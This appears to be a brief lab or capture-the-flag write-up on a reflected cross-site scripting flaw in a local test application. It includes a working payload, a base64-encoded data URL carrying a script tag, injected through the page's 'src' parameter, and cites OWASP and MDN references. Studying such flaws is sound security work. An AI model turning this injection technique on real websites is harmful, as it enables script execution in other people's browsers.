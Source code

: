 # Reflected XSS
> Reflected Cross-site Scripting (XSS) occur when an attacker injects browser executable code within a single HTTP response. The injected attack is not stored within the application itself
>
> see [here](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)

## vulnerability
Home -> http://localhost/?page=media&src=nsa

1. If src parameter is echoed in HTML or Javascript code without proper sanitization, an attacker can inject malicious scripts.
2. Use Data URLs to create embed small file inline in documents `<script>alert("hi")</script>`. (see [here](https://developer.mozilla.org/en-US/docs/Web/URI/Reference/Schemes/data))
3. encode it with base64.
4. Inject it. `http://localhost/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiaGkiKTwvc2NyaXB0Pg==`

## reference
* https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting
* https://developer.mozilla.org/en-US/docs/Web/URI/Reference/Schemes/data
